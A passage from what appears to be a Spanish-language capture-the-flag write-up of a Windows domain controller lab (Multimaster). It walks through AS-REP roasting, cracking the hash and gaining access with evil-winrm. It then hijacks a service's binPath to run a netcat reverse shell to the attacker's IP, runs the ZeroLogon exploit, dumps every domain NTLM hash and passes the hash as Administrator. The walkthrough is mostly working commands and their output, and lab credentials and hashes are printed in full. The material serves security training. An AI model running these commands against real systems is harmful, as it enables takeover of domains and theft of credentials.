Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

...[snip]...
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
...[snip]...
```

A través de la herramienta de `bloodyAD` procederemos a asignarle la flag de (_DONT\_REQ\_PREAUTH_) al usuario `jorden@megacorp.local`. Al asignarle esa flag y realizar nuevamente el ataque, verificamos que recibimos el hash TGT (Ticket Granting Ticket).

```bash
❯ bloodyAD --host 10.10.10.179 -d megacorp.local -u 'sbauer' -p 'D3veL0pM3nT!' add uac 'jorden' -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to jorden's userAccountControl

❯ impacket-GetNPUsers -no-pass -usersfile users.txt megacorp.local/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

...[snip]...
$krb5asrep$23$jorden@MEGACORP.LOCAL:23e4403a846d9d192765cf32f4009d69$1ace15eacf503d3b23f5e5f21d3d46da309bb23f7d639d7258344d4f1b64bd9ea8af1e26b484688d83c8acdc605b3171322875257f8d85a909ce4f0f115cac65bb09d55fc73c48ce9897d817fa500cde93d239c3caee33f41d0ad29ca4a5cc67517b1cdf4a51cbee5c181c6e1aae2a79cc5b5b6e304f751fe5c449c7ff0010e66bc65771ce10cdfabdabcfa5d7dd5e973238da23a9b622e68da8b63851e4cfb950c51a53831c0be5268c3c6c7c94e0aad70a5ef93f469fd0cef8d3f3dc20d226066bcfa32ccbdb6ea8def727c054bc9aa12654bdafac4e4542845c0e58efd0225df48264c2559848f1f7dcfe0574c14d
...[snip]...
```

Procederemos a crackear con `hashcat` cualquiera de los dos hashes obtenidos TGT/TGS. Verifiamos que hemos logrado obtener la contraseña en texto plano.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
...[snip]...
$krb5asrep$23$jorden@MEGACORP.LOCAL:23e4403a846d9d192765cf32f4009d69$1ace15eacf503d3b23f5e5f21d3d46da309bb23f7d639d7258344d4f1b64bd9ea8af1e26b484688d83c8acdc605b3171322875257f8d85a909ce4f0f115cac65bb09d55fc73c48ce9897d817fa500cde93d239c3caee33f41d0ad29ca4a5cc67517b1cdf4a51cbee5c181c6e1aae2a79cc5b5b6e304f751fe5c449c7ff0010e66bc65771ce10cdfabdabcfa5d7dd5e973238da23a9b622e68da8b63851e4cfb950c51a53831c0be5268c3c6c7c94e0aad70a5ef93f469fd0cef8d3f3dc20d226066bcfa32ccbdb6ea8def727c054bc9aa12654bdafac4e4542845c0e58efd0225df48264c2559848f1f7dcfe0574c14d:rainforest786
...[snip]...
```

Verificaremos nuevamente que las credenciales obtenidas sean válidas y que nos podamos conectar al equipo mediante `evil-winrm` ya que el usuario forma parte del grupo `Remote Management Users`.

```bash
❯ nxc smb 10.10.10.179 -u 'jorden' -p 'rainforest786'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\jorden:rainforest786

❯ evil-winrm -i 10.10.10.179 -u 'jorden' -p 'rainforest786'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```

## Privilege Escalation

Revisando los permiso/grupos del usuario que disponemos actualmente `jorden@megacorp.local` revisamos que el usuario foma parte del grupo `SERVER OPERATORS@megacorp.local`.

<figure><figcaption></figcaption></figure>

### Windows PrivEsc: Server Operator Group

El grupo `Server Operators` es un grupo de seguridad integrado en los entornos de Windows Server. A los miembros de este grupo se les otorgan privilegios administrativos específicos que les permiten realizar tareas relacionadas con el servidor sin tener derechos administrativos completos. Este grupo está diseñado principalmente para la administración delegada del servidor. Privilegios clave de los operadores de servidor

Los miembros del grupo Operadores de servidor tienen los siguientes privilegios:

* **Iniciar y detener servicios:**&#x20;
  * Pueden iniciar, detener y pausar servicios en el servidor, lo que es crucial para el mantenimiento y la resolución de problemas del servidor.&#x20;
* **Administrar recursos compartidos:**
  * &#x20;Los operadores de servidor pueden crear, modificar y eliminar carpetas compartidas y administrar recursos compartidos de impresoras, lo que les permite administrar recursos compartidos de manera eficaz.&#x20;
* **Operaciones de copia de seguridad y restauración:**
  * &#x20;Los miembros pueden realizar copias de seguridad de archivos y restaurar archivos a partir de copias de seguridad, lo que facilita la administración de los procesos de recuperación de datos.&#x20;
* **Iniciar sesión localmente:**
  * Los miembros tienen la capacidad de iniciar sesión localmente en el servidor, lo que les permite administrar directamente el servidor a través de su consola.
* **Administrar usuarios y grupos locales:**
  * Pueden agregar o eliminar usuarios de grupos locales y administrar cuentas locales, lo que es importante para las tareas de administración de usuarios.

Hemos conseguido más información de lo que trata esta escalada de privilegios desde el siguiente blog donde se detalla la explotación.



Desde el equipo procederemos a revisar los servicios que se encuentran en ejecución.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe                                                           True aspnet_state     
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5EB04B3D-85AE-4574-88FB-F22CF32D39F5}\MpKslDrv.sys       True MpKslDrv         
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER                          True MSSQLSERVER      
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"                                                     True SQLBrowser       
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\SQLAGENT.EXE" -i MSSQLSERVER                         True SQLSERVERAGENT   
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlceip.exe" -Service                                True SQLTELEMETRY     
"C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"                                                            True SQLWriter        
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
C:\Program Files\VMWare\VMWare Tools\vmtoolsd.exe                                                                          True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\NisSrv.exe"                                              True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\MsMpEng.exe"                                             True WinDefend
```

Después de revisar los servicios que se encuentran en ejecución, el siguiente paso será subir al equipo víctima el binario `nc.exe` para posteriormente aprovechar de que formamos parte de este grupo, para modificar el `binPath` del servicio e indicarle que la ruta del servicio es la ejecución de una Reverse Shell utilizando el binario subido de `nc.exe`.

Verificamos que logramos modificar correctamente el `binPath` del servicio `VMTools`, también podemos utilizar el servicio `browser`.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> upload /usr/share/windows-binaries/nc.exe
                                        
Info: Uploading /usr/share/windows-binaries/nc.exe to C:\Users\jorden\Documents\nc.exe
                                        
Data: 79188 bytes of 79188 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe config VMTools binPath="C:\Users\jorden\Documents\nc.exe -e cmd 10.10.16.5 443"
[SC] ChangeServiceConfig SUCCESS
```

En una terminal nos pondremos en escucha por el puerto especificado en el punto anterior.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Volveremos a la terminal del equipo víctima y procederemos a parar y volver a iniciar el servicio el cual hemos modificado el `binPath` para que ejecute la Reverse Shell.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VMTools
```

Verificamos que al volver a iniciar el servicio, hemos logrado obtener conexión a través de la Reverse Shell, en este caso, el usuario que arranca el servicio es el usuario `NT AUTHORITY\SYSTEM`, lo cual tenemos control total sobre el equipo.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.179] 49948
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
b989bf465f20e0******************
```

### ZeroLogon Exploitation to performing DCSync Attack

Durante el análisis realizado, descubrimos que el Domain Controller es vulnerable al exploit **`ZeroLogon`**`(CVE-2020-1472)`. Esta vulnerabilidad permite comprometer la seguridad del dominio y elevar privilegios al manipular las credenciales y las conexiones SMB.

```bash
❯ nxc smb 10.10.10.179 -u 'jorden' -p 'rainforest786' -d megacorp.local -M zerologon
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] megacorp.local\jorden:rainforest786 
ZEROLOGON   10.10.10.179    445    MULTIMASTER      VULNERABLE
ZEROLOGON   10.10.10.179    445    MULTIMASTER      Next step: https://github.com/dirkjanm/CVE-2020-1472
```

Nos descargaremos el siguiente repositorio en nuestro equipo atacante para explotar la vulnerabilidad.



```bash
❯ git clone https://github.com/dirkjanm/CVE-2020-1472; cd CVE-2020-1472
Clonando en 'CVE-2020-1472'...
remote: Enumerating objects: 41, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 41 (delta 6), reused 4 (delta 4), pack-reused 29 (from 1)
Recibiendo objetos: 100% (41/41), 23.83 KiB | 903.00 KiB/s, listo.
Resolviendo deltas: 100% (14/14), listo.
```

En el PoC del exploit de _**ZeroLogon**_, verificamos el uso de la herramienta.

<figure><figcaption></figcaption></figure>

Al realizar la explotación del CVE, lo que realiza esta vulnerabiliadd es dejar las credenciales del Domain Controller (DC) vacías.

Por lo tanto, al proceder a realizar un _**DCSync Attack**_ con la cuenta del DC sin indicarle credenciales, obtenemos los hashes NTLM de todo el dominio.

Esto compromete gravemente la seguridad, debido que disponemos del acceso a cualquier usuario haciendo ataques como _**Pass-The-Hash**_.

```bash
❯ python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
======================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!

❯ secretsdump.py -just-dc-ntlm -no-pass megacorp.local/'MULTIMASTER$'@10.10.10.179 -dc-ip 10.10.10.179
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:19b44ab9ec562fe20b35ddb7c6fc0689:::
MEGACORP.LOCAL\dai:2101:aad3b435b51404eeaad3b435b51404ee:cb8a655c8bc531dd01a5359b40b20e7b:::
MEGACORP.LOCAL\svc-sql:2102:aad3b435b51404eeaad3b435b51404ee:3a36abdc15d86766d4cd243d8557e10d:::
MEGACORP.LOCAL\sbauer:3102:aad3b435b51404eeaad3b435b51404ee:050ba67142895b5844a24d5ce9644702:::
MEGACORP.LOCAL\okent:3103:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\ckane:3104:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\kpage:3105:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\james:3106:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\cyork:3107:aad3b435b51404eeaad3b435b51404ee:06327297532725a64e1edec0aad81cfe:::
MEGACORP.LOCAL\rmartin:3108:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\zac:3109:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\jorden:3110:aad3b435b51404eeaad3b435b51404ee:90960176fcbfe36b4a69fafb3cc0b716:::
MEGACORP.LOCAL\alyx:3111:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\ilee:3112:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\nbourne:3113:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\zpowers:3114:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\aldom:3115:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\jsmmons:3116:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MEGACORP.LOCAL\pmartin:3117:aad3b435b51404eeaad3b435b51404ee:b7c7e43caa54942a2e85d9c8b4074f04:::
MULTIMASTER$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

Al realizar un dump del `NTDS.dit`, verificaremos que podemos realizar _**Pass-The-Hash**_ con el usuario `Administrator` y conectarnos a través de la herramienta `wmiexec.py`.

```bash
❯ nxc smb 10.10.10.179 -u 'Administrator' -H '69cbf4a9b7415c9e1caf93d51d971be0'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\Administrator:69cbf4a9b7415c9e1caf93d51d971be0 (Pwn3d!)

❯ wmiexec.py megacorp.local/Administrator@10.10.10.179 -hashes :69cbf4a9b7415c9e1caf93d51d971be0 -dc-ip 10.10.10.179
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
megacorp\administrator
```
